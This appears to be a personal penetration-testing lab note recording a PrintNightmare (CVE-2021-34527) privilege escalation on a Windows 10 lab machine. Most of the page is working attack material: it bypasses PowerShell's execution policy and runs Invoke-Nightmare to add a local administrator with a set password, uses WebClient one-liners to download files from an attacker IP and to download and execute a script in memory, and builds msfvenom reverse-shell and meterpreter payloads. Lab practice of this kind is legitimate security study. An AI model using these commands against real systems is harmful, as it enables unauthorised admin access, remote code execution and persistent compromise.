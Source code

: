 ```yaml
---
created_date: 04 October 2023
updated_date: 04 October 2023
type: windows
url: https://github.com/JohnHammond/CVE-2021-34527              https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527
---
```

##### Machine Information
```
Gobots (Attacker)
===============

192.168.146.134 (HORDE Workstation)
===============
Artifacts Created:
User: adm1n
C:\Users\swindrunner\AppData\Local\Temp\nightmare.dll

Artifacts Deleted:
C:\Users\swindrunner\AppData\Local\Temp\nightmare.dll
```
### High-Level Summary

cve-2021-1675 PrintNightmare abuses the `spoolsv` service on windows by exploiting the registry key `HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PointAndPrint` with the parameters below

- HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PointAndPrint
- NoWarningNoElevationOnInstall = 0 (DWORD) or not defined (default setting)
- UpdatePromptSettings = 0 (DWORD) or not defined (default setting)

-------------
##### Lessons Learned
-  Was able to add the registry key to the Horde Workstation
-  Had to ensure that Windows defender allowed access to the registry key.
--------
###### spoolsv

- run a `ps` and check if spoolsv is running, if so probably vulnerable to `PrintNightmare` as long as registry key above exists and is set to `1` 
- Tested in my environment on a Windows 10 Machine


-----
###### Invoke-Module

```powershell
PS C:\Users\swindrunner\Desktop\malware> powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Users\swindrunner\Desktop\malware> import-module .\CVE-2021-34527.ps1
```

----
###### Invoke-Nightmare
```powershell
PS C:\Users\swindrunner\Desktop\malware> Invoke-Nightmare
[+] using default new user: adm1n
[+] using default new password: P@ssw0rd
[+] created payload at C:\Users\swindrunner\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_24c579062c56db47\Amd64\mxdwdrv.dll"
[+] added user  as local administrator
[+] deleting payload from C:\Users\swindrunner\AppData\Local\Temp\nightmare.dll
PS C:\Users\swindrunner\Desktop\malware> net users

User accounts for \\HORDE

-------------------------------------------------------------------------------
adm1n                    Administrator            DefaultAccount
Guest                    Sylvanas Windrunner      WDAGUtilityAccount
The command completed successfully.

PS C:\Users\swindrunner\Desktop\malware> runas /user:adm1n powershell.exe
Enter the password for adm1n:
Attempting to start powershell.exe as user "HORDE\adm1n" ...
```
If you have fully interactive Powershell session.

`**Download file**   powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.146.129/http_x64.exe', 'exploit.exe')

`**Download and execute without saving on disk**   powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.1.2/test.ps1')`

This worked
PS C:\Users\swindrunner\Desktop\malware> powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.146.129:8000/http_x64.exe', 'exploit.exe')
- have CB beacon
-----

msfvenom -p windows/shell/reverse_tcp LHOST=192.168.146.129 LPORT=5555 -f exe > prompt.exe
msfvenom -p windows/x64/shell/reverse_tcp  LHOST=192.168.146.129 LPORT=5555 -f exe > prompt.exe

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.146.129 LPORT=2222 -f exe > prompt.exe
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.146.129:8080/prompt.exe', 'revshell.exe')


PS C:\Users\swindrunner\Desktop\malware> powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.146.129:8000/CVE-2021-34527.ps1', 'CVE-2021-34527.ps1')


Import-Module .\CVE-2021-34527.ps1
Invoke-Nightmare -NewUser "jorden" -NewPassword "Password1" -DriverName "PrintMe"

Invoke-Nightmare -DriverName "Xerox" -NewUser "john" -NewPassword "SuperSecure"




